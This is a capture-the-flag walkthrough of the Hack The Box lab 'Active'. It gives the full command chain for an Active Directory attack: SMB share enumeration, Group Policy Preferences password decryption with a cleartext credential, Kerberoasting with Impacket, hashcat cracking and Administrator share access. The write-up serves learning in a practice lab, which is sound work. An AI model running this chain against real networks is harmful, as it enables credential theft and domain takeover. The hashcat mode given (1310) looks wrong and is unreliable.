

# Active
A really interesting box to learn the basics of AD/Kerberos/Kerbroasting. There are a few different ways/tools to pwn this box, but here's what I believe to be one of the easiest ways.


**Tools: nmap, smbclient, smbmap, gpp-decrypt, ntpdate, hashcat, Impacket (GetADUsers.py and GetUserSPNs.py).**

We begin by running nmap to scan the target:  
`nmap -Pn -sC -sV -p- -T4 --min-rate=10000 10.10.10.100`


Quite a few open ports, but right away we see that this box runs an AD, has SMB/NetBIOS shares and runs on a Windows Server 2008. Also, the domain name is 'active.htb'.  
Let's enumerate SMB with smbmap:  
`smbmap -H 10.10.10.100`


So we have read access to 'Replication'. Let's take a look at its files and download them using smbclient:  

```
smbclient //10.10.10.100/Replication  
recurse ON  (so we can run the commands to interact with the share)  
prompt OFF  (so we can download the files without getting prompted to confirm)
```


With 'ls' we list the files and with 'mget\*' we download them all.  
In order to locate the downloaded files we can run 'updatedb', then we can locate a file that seems to be important, like 'Groups.xml'. This file has the 'Group Policy Preferences', and can be abused to leak users' passwords, just like below after 'cpassword'. We can also see the username 'svc_tgs'.


We can then decrypt the password using gpp-decrypt:



With all the information gathered, we can now run smbmap again, using the credentials we've just found:  
`smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100`


Now we can see that we've access to a few more shares. Let's go back to smbclient to test them:  
`smbclient //10.10.10.100/Users -U active.htb/svc_tgs`


At 'Users' we're able to find the 'user.txt' file containing the user flag.  
Next up, we can use Impacket's GetADUsers to see the users in this box:  
`python3 GetADUsers.py active.htb/svc_tgs -dc-ip 10.10.10.100 -all`


Now I'd recommend either HTB's Official Walktrough or a good Google research to read and understand about the basics of Kerberos and the Kerbroasting technique.  
We'll use Impacket's GetUserSPNs to find 'Service Principal Names' and try to extract the NTLM hash for the 'Ticket Granting Service' - below is the descryption of the process, as explained inside the tool:  
*"This module will try to find Service Principal Names that are associated with normal user account. Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request will encrypt the ticket with the account the SPN is running under, this could be used for an offline bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs."*   
```
python3 GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs
python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```


If, instead of the NTLM hash, you get an error containing "(Clock skew too great)", it's because the box has a different date/time than your VM, and this process requires a time difference of no more than 5 minutes (in some cases the limit can be of 1 minute). You can try using ntpdate and date to fix this:  
```
ntpdate 10.10.10.100  (you might need to install this tool with 'apt install' - take a look at the 'time')  
date  (to see the correct pattern for the date/time)  
date -s "date and time here"  (to set the date/time)  
```


And then run the GetUserSPNs again to extract the hash.  
We can crack this hash using hashcat and the wordlist 'rockyou.txt' - first, copy the hash ahd save it to a file called 'hash.txt':  
`hashcat -m 1310 hash.txt /usr/share/wordlists/rockyou.txt`


There you can see the 'Administrator' password. Now we can simply use smbclient once again to connect to the 'C$' share and grab the root flag from the Administrator's Desktop folder:  
`smbclient //10.10.10.100/C$ -U active.htb/Administrator`


**That's all for this box folks!**  
Thanks for reading and keep hacking!
